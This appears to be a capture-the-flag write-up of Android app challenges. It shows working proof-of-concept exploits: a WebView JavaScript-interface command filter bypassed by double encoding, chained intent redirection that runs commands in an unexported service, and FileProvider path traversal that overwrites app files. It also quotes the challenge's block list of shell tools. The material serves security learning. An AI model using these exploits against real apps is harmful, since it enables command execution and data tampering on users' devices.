


## Dash


The challenge was quite simple and straight forward. The application was a flutter 
app and it was obfuscated, Decompiling it would bring you more tears and regrets.
The message `Debugging means we don't just thow exceptions; we aim for solutions` 
suggests insecure logging. Opening the app we find a floating action button ,
clicking the button logged a base92 encoded string 


Decoding the string revealed the flag.


## Compose Cipher


Opening the apk requires us to input some string.


Decompiling the apk with jadx-gui we notice we only have one activity;


Moving on to the MainActivity we find the function being called when the compose button
is clicked. Its simply a AES algorithm trying to compare out input with that of a AES decrypted value.


The function takes in some values located in another class.


Next was to write a simple python script to reverse this process. Or maybe use chatgpt.

```python
import base64
import hashlib
from Crypto.Cipher import AES

def hex_string_to_byte_array(hex_string):
    """Convert a hex string to a byte array."""
    return bytes.fromhex(hex_string)

def derive_key(password, salt, iterations=10000, key_length=32):
    """Derive a key using PBKDF2 with HMAC-SHA256."""
    key = hashlib.pbkdf2_hmac('sha256', password.encode(), salt, iterations, dklen=key_length)
    return key

def decrypt_aes(encrypted_text, password, salt, iv):
    """Decrypt AES/CBC/PKCS5Padding encrypted text."""
    try:
        # Derive key
        key = derive_key(password, salt, iterations=10000, key_length=32)

        # Initialize cipher
        cipher = AES.new(key, AES.MODE_CBC, iv)

        # Decode and decrypt
        encrypted_bytes = base64.b64decode(encrypted_text)
        decrypted_bytes = cipher.decrypt(encrypted_bytes)

        # Remove padding (PKCS5/PKCS7)
        padding_length = decrypted_bytes[-1]
        decrypted_text = decrypted_bytes[:-padding_length].decode('utf-8')

        return decrypted_text
    except Exception as e:
        return f"Decryption Error: {e}"

# Inputs
salt_hex = "263BC60258FF4876"
iv_hex = "7E892875A52C59A3B588306B13C31FBD"
password = "jetpackninja"
encrypted_text = "AhtqeRhKca1XDRVAXTxqEEYNwpAo4vUqoFayhaH5vmcktJ9WbZTAOBI6e8Ubfg7u1PLfPEBILkVmZgQenapt0vzilnnh2qdSHcLiHbJnUYk="

# Convert hex strings to byte arrays
salt = hex_string_to_byte_array(salt_hex)
iv = hex_string_to_byte_array(iv_hex)

# Decrypt
decrypted_message = decrypt_aes(encrypted_text, password, salt, iv)
print("Decrypted Message:", decrypted_message)
```

Finally we decode the output to get the flag.

```bash
echo "YzBtcDBzM180bmRfcjNjMG1wb3MzX3kwdXJfYzFwaDNyXzFuX2swdGwxbiFfY2Y2Mjk2MzMy" | base64 -d
c0mp0s3_4nd_r3c0mpos3_y0ur_c1ph3r_1n_k0tl1n!_cf6296332
```

## Hello Android


Decompiling the apk with jadx-gui we notice that we only have one activity in the `AndroidManifest.xml` file.


The main activity uses the `System.loadLibrary()` java method to load a native library `helloandroid` to the app.
`this.binding.sampleText.setText(stringFromJNI())` sets the text of a TextView in the layout to the string returned
by the `stringFromJNI()` method. 


To retrive the binary we use `apktool` to decompile the apk. and navigate to `helloandroid/lib/arm64-v8a` where 
the binary for the specified architecture is stored.

```bash
apktool d helloandroid.apk
```

Decompiling the binary with binary ninja we notice a method that was `neverCalled`. It does some logging
`Decrypt Success`. All we have to do is call the function and check the logs. There are several ways to
approach this; but the easy and quick way was to use frida. The other approach can be found here
 https://developer.android.com/studio/projects/add-native-code


we create a frida script to trigger the method.

```js
const moduleName = "libhelloandroid.so"; // module name of the binary
const symbolName = "Java_com_example_helloandroid_MainActivity_neverCalled"; // function name to be called
const env = Java.vm.getEnv(); // environment variable to be passed to the function 

const funcAddress = Module.findExportByName(moduleName, symbolName); // find the address using a frida api
console.log("Function address:", funcAddress);

const neverCalled = new NativeFunction(funcAddress, 'pointer', ['pointer', 'pointer']); // function takes two arguments, both of which are pointers

console.log("Env address", env.handle)
neverCalled(env.handle, ptr(0)); // calling the function with the parameters
```

Running the exploit.

```bash
frida -U -l frida.js -f com.example.helloandroid
```

Reload it to get the addresses once loaded into memory.


Check for the logs to retrieve the flag.


## Spider View


Opening the app we are motivated not to give up.


Decompiling the apk with jadx-gui we get a intent filter in the MainActivity.


The MainActivity expects an intent. If the first string extra `viewContent` is null it checks for another string extra `url` and get Its
data if its not null and renders it in the webview otherwise it uses the default one `"https://www.youtube.com/watch?v=dQw4w9WgXcQ"`. 
if `viewContent` is not null it is directly loaded to the `webview`.  


Javascript execution is enabled, which means we can execute any malicious javascript code if the app does not handle it correctly. We also
notice the javascript interface used `SpiderInterface` and can be accessed using `SpiderView` keyword. 


The Interface has an interesting function `testRunCommand` which receive a command, decodes it using `base 64` and checks if its a dangerous
command. If the first check is successful we execute the command but its decoded for the second time. This means we can bypass this using
double encoding method.


These are the filtered commands and we are required to run one of them

```java
private boolean isUtilityCommand(String str) {
    String[] strArr = {"cat", "ls", "echo", "grep", "find", "head", "tail", "wc", "cp", "mv", "rm", "mkdir", "rmdir", "chmod", "chown", "ps", "top", "df", "du", "ifconfig", "ping", "curl", "wget", "scp", "ssh", "man", "nano", "vi", "sed", "awk", "sort", "uniq", "tar", "gzip", "gunzip", "zip", "unzip", "touch", "history"};
    for (int i2 = 0; i2 < 39; i2++) {
        if (Pattern.compile("\\b" + Pattern.quote(strArr[i2]) + "\\b", 2).matcher(str).find()) {
            return true;
        }
    }
    return false;
}
```

Let's create our POC app to run one of the utility commands.

```java
package com.example.spiderviewsolution;

import android.content.Intent;
import android.os.Bundle;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        Button button = findViewById(R.id.button);

        Intent intent = new Intent();
        intent.setClassName("com.example.spiderview", "com.example.spiderview.MainActivity"); // set the classname of the app and activity to send our intent
        intent.putExtra("viewContent", "<html><script>SpiderView.testRunCommand(\"YkhNPQ==\");</script></html>"); // write our payload as a string extra to run javascript and call the interface method

        button.setOnClickListener(v -> startActivity(intent)); // trigger the exploit when a button is clicked
    }
}
```

We run our exploit and click the button and the `ls` commands runs successfuly.


## Hunter X Hunter


Opening the apk we get this screen.


Decompiling it with jadx-gui we notice we have `HuntersPortal` set to `exported = false` and a service `HuntersSevice` set 
to `exported = false`. The MainActivity has an intent filter.


The MainActivity gets an intent from any app,  `intent.getAction() != null` checks if it has an associated action, 
`intent.getParcelableExtra("nextIntent") != null` Checks if the Intent contains a Parcelable extra with the key `nextIntent`.
If both checks pass, the code retrieves the Intent object stored in the `nextIntent` extra and starts a new activity using `startActivity()` 
hence an Intent Redirection vulnerability.


Checking the unexported `HuntersPortal` we notice the activity gets an intent checks whether the `action = ProHunter`, then retrieves 
the Intent object stored in the `nextIntent` extra and starts a new service using `startService()` hence another Intent Redirection vulnerability.


Lastly in the  unexported `HuntersService` we notice `onStartCommand()` retieves an string extra from an intent passed to it, decodes it
and runs it as a command. 


Lets now create our poc apk to run a command.

```java
package com.example.hunterxsolution;

import android.content.Intent;
import android.os.Bundle;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        // create an intent to call the internal service component
        Intent serviceIntent = new Intent();
        serviceIntent.setClassName("com.example.hunterx", "com.example.hunterx.HuntersService");
        serviceIntent.putExtra("run", "bHM=");

        // Create an intent to call the unexported hunters portal activity using intent redirection
        Intent proHunterIntent = new Intent();
        proHunterIntent.setAction("ProHunter");
        proHunterIntent.setClassName("com.example.hunterx", "com.example.hunterx.HuntersPortal");

        // pass the serviceIntent as the next intent
        proHunterIntent.putExtra("nextIntent", serviceIntent);

        // create our main intent with the correct action
        Intent intent = new Intent();
        intent.setAction(Intent.ACTION_VIEW);
        intent.setClassName("com.example.hunterx", "com.example.hunterx.MainActivity");

        // pass the proHunterIntent as the next intent
        intent.putExtra("nextIntent", proHunterIntent);

        // create a button to trigger the exploit
        Button button = findViewById(R.id.button);
        button.setOnClickListener(v -> startActivity(intent));
    }
}
```

We run the exploit and click the button to trigger the exploit. Intent redirection allowed us to access unexported components.


## Uncharted Path


Decompiling the apk with jadx-gui we notice `UnchartedPathActivity` is exported. Also we have a A FileProvider which is a special 
kind of content provider that facilitates secure sharing of files between an app and other apps by generating content URIs for 
files, it not exported , `android:grantUriPermissions="true"` Allows the app to grant temporary permissions to other 
apps for accessing the files through the FileProvider. `android:name="android.support.FILE_PROVIDER_PATHS"` Specifies that this
FileProvider uses a filepaths XML resource file to define which files/directories can be shared.
`android:resource="@xml/filepaths"` Points to the filepaths.xml file in the res/xml directory. This file defines the locations of
the files or directories that the FileProvider can access and share.


`path="/"` Specifies the root of the file system (/). This gives access to the entire file system, including sensitive directories 
such as /system, /data, and /sdcard which is dangerous.


Retrieves the filename passed as an extra in the Intent that started this activity. A File object is then created pointing to a file in the 
app's internal files directory (getFilesDir()), appending the filename. A custom FileProvider object `C0362d` is initialized with 
the app context and authority `com.unchartedpath.fileprovider`. This object manages file paths and their mappings to `content:// URIs`.
If a matching root is found its Constructs a content:// URI using the root's authority `c2.f3932a` and the relative path.
Lastly an Intent is created, sets the content:// URI as its data, and adds permission flags to 3. Sets the activity result so that
the caller can retrieve the URI and the permissions.


Looking at the permissions in android studio we notice that we get both read `0x00000001` and write `0x00000002` which gives `3` . 
This means we can read and write any file in the whole system of android where this app is installed.


Lets now create an exploit to edit the shared treasure_preference file

```java
package com.example.unchartedpathsolution;

import android.content.ContentResolver;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.annotation.Nullable;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

import java.io.IOException;
import java.io.OutputStream;
import java.io.OutputStreamWriter;

public class MainActivity extends AppCompatActivity {


    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        Button button = findViewById(R.id.button);

        button.setOnClickListener(v -> {
            Intent intent = new Intent();
            // putextra the file name we want to be granted the permissins to read and write
            intent.putExtra("filename", "../shared_prefs/treasure_preference.xml");
            // set the calssname to trigger
            intent.setClassName("com.example.unchartedpath", "com.example.unchartedpath.UnchartedPathActivity");
            // start activity for result since we expect to resceive a result from the other app
            startActivityForResult(intent, 42);
        });
    }

    // ovveride on activity result to handle the received result from the other app
    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        Uri uri = data.getData();
        String xmlContent = "<?xml version='1.0' encoding='utf-8' standalone='yes' ?>\n" +
                "<map>\n" +
                "    <boolean name=\"Libertalia\" value=\"true\" />\n" +
                "</map>\n";

        try {
            // use a content resolver to overwrite the contents of the received result
            ContentResolver resolver = getContentResolver();
            OutputStream outputStream = resolver.openOutputStream(uri);
            if (outputStream != null) {
                outputStream.write(xmlContent.getBytes());
                outputStream.close();
                Log.d("Exploit", "Successfully wrote to file: " + uri);
            }
        } catch (IOException e) {
            Log.e("Exploit", "Failed to write file: " + e.getMessage());
            e.printStackTrace();
        }


    }
}
```

First we need to click the button run the POC app to be granted the permissions to overwrite the files.



Next we navigate back to our app to trigger the onActivityResult function to overwrite the files using the granted permissions;



## Dino Flame

